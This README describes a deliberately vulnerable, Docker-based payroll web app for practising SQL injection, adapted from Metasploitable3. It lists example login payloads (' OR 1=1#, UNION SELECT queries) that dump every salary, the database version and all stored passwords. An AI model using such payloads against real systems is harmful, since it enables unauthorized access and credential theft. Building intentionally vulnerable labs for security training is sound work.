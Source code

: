 # startrek_payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Project Instructions

Install the project requirements on your choice of operating system, including:

- Docker
- Docker Compose plugin

Run the following:

- `docker-compose up`

Open web browser and visit:

- `localhost:8080`

## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all users passwords:
    - `username`: `' UNION SELECT username,password FROM users#`
    - `password`: `anythingyouwant`
